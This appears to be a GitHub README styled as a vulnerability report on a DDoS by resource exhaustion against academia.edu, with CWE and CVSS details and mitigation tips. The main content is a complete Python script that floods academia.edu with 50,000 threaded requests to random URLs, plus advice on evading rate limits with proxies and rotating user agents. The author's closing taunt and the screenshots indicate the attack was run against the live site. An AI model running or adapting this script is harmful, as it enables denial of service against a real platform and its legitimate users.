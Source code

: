 # Skooled
### Ddos for Academina.edu

### Title: DDoS by Resource Exhaustion Using Proxies and User Agents Bypassing Rate Limits

Description: This report describes a Distributed Denial of Service (DDoS) attack targeting academia.edu, where multiple requests are generated to exhaust server resources. The attack leverages randomized URL generation, multiple proxy addresses, and varying user-agent headers to bypass rate-limiting mechanisms. By generating high-volume requests in rapid succession, the attack attempts to exhaust server resources, resulting in a denial of service for legitimate users.


---

Vulnerability Details:

Attack Type: Distributed Denial of Service (DDoS) by Resource Exhaustion

Affected Platform: Academia.edu

Script Used: Python-based script (skooed.py) that generates random URLs, bypasses rate limits, and utilizes threading for high-volume concurrent requests.


Steps of the Attack:

1. Random URL Generation: The script randomly generates URLs using a combination of pre-defined base URLs and random 7-digit numerical strings, creating a large number of unique requests.


2. Threading for Concurrency: By using threading, the script launches multiple concurrent requests (up to 50,000 threads in this instance), resulting in a massive spike in request volume.


3. Resource Exhaustion: The rapid and massive influx of requests aims to overload the server resources (CPU, memory, bandwidth) and cause slowdowns or unavailability.


4. Rate Limit Bypass: The script can be modified with proxies and varying user agents to evade rate-limiting restrictions that would otherwise prevent excessive requests from the same IP.




---

CWE IDs:

CWE-400: Uncontrolled Resource Consumption - Excessive requests lead to resource exhaustion, impacting server availability.

CWE-770: Allocation of Resources Without Limits or Throttling - Lack of adequate rate limiting on academia.edu’s platform.

CWE-829: Inclusion of Functionality from Untrusted Control Sphere - Potential exploitation of unauthenticated resources due to improper rate limiting.



---

CVSS Score Calculation: Based on the characteristics of this DDoS attack, the CVSS (Common Vulnerability Scoring System) score would be calculated as follows:

Attack Vector (AV): Network (N)

Attack Complexity (AC): Low (L)

Privileges Required (PR): None (N)

User Interaction (UI): None (N)

Scope (S): Unchanged (U)

Confidentiality (C): None (N)

Integrity (I): None (N)

Availability (A): High (H) – Severe impact on availability due to resource exhaustion.


CVSS Score: 7.5 (High)

This score reflects the significant impact on availability and the low difficulty in executing this type of attack.


---

Mitigation Recommendations:

1. Rate Limiting and Throttling: Implement strict rate-limiting mechanisms based on IP addresses, user agents, and request patterns to detect and block excessive requests.


2. CAPTCHA Challenges: Enforce CAPTCHA or other challenge mechanisms for unusual access patterns to limit bot-based requests.


3. Web Application Firewall (WAF): Deploy a WAF to identify and block abnormal request patterns that indicate DDoS attempts.


4. Load Balancing and Autoscaling: Use load balancers to distribute traffic efficiently and enable autoscaling to handle sudden traffic spikes without exhausting resources.


5. Monitoring and Alerts: Continuous monitoring of server health and unusual traffic patterns can help detect early signs of resource exhaustion and trigger defensive actions.




---

PoC script:

```python
import requests
import threading
import random
import time

# List of base URLs to test
base_urls = [
    "https://www.academia.edu/10",
    "https://www.academia.edu/11"
]

# Function to generate a URL with a random 7-digit numerical string
def generate_random_url():
    base_url = random.choice(base_urls)  # Randomly select a base URL
    random_digits = ''.join([str(random.randint(0, 9)) for _ in range(7)])
    return f"{base_url}{random_digits}"

# Function to make a request to the generated URL
def make_request():
    url = generate_random_url()
    try:
        response = requests.get(url)
        print(f"Requested: {url} | Status Code: {response.status_code}")
    except requests.RequestException as e:
        print(f"Request failed for {url}: {e}")

# Main function to create threads and run multiple requests concurrently
def run_concurrent_requests(num_threads):
    threads = []
    for _ in range(num_threads):
        thread = threading.Thread(target=make_request)
        threads.append(thread)
        thread.start()
        time.sleep(0.1)  # slight delay to stagger requests

    for thread in threads:
        thread.join()

# Run the script with the desired number of threads
if __name__ == "__main__":
    num_threads = 50000  # Adjust the number of concurrent requests as needed
    run_concurrent_requests(num_threads)
```
All those Doctors on there and you didn't thunk too hire one to be able to stop me. 🤣🤣🤣

![Attck PoC in terminal.](https://raw.githubusercontent.com/DeadmanXXXII/Skooled/main/Screenshot_20241110-000810.png)

![Scraper pulling links for other resources](https://raw.githubusercontent.com/DeadmanXXXII/Skooled/main/Screenshot_20241110-000824.png)
